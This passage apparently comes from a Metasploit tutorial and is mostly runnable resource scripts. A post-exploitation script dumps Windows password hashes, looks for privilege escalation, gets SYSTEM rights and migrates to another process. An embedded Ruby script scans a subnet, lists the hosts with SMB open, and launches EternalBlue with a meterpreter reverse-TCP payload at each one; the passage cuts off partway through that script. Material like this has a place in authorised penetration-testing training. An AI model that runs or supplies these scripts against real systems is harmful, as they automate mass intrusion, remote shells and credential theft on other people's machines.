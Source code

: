 ```ruby

echo "Exploitation phase complete. Check active sessions."
```

**Post-exploitation resource script (post_exploit.rc):**

```ruby
# Gather system information
run post/windows/gather/enum_system

# Dump password hashes
run post/windows/gather/hashdump

# Check for privilege escalation opportunities
run post/multi/recon/local_exploit_suggester

# Attempt to obtain SYSTEM privileges
getsystem

# Migrate to a more stable process
pgrep explorer.exe
migrate PROCESS_ID
```

#### Executing Ruby Code

For more complex automation, embed Ruby code in resource scripts:

```ruby
<ruby>
# Define target range
target_range = "192.168.1.0/24"
ports = [22, 80, 443, 445, 3389]

# Scan each port
ports.each do |port|
  print_status("Scanning port #{port}...")
  run_single("use auxiliary/scanner/portscan/tcp")
  run_single("set RHOSTS #{target_range}")
  run_single("set PORTS #{port}")
  run_single("set THREADS 50")
  run_single("run")
end

# Extract hosts with open port 445
smb_hosts = []
framework.db.hosts.each do |host|
  host.services.each do |service|
    if service.port == 445 && service.state == "open"
      smb_hosts << host.address
    end
  end
end

if smb_hosts.empty?
  print_error("No hosts found with open SMB ports")
else
  # Target those hosts with EternalBlue
  print_good("Found #{smb_hosts.length} hosts with open SMB ports")
  smb_hosts.each do |host|
    print_status("Targeting #{host} with EternalBlue...")
    run_single("use exploit/windows/smb/ms17_010_eternalblue")
    run_single("set RHOSTS #{host}")
    run_single("set PAYLOAD windows/x64/meterpreter/reverse_tcp")
    run_single("set LHOST 192.168.1.200")
```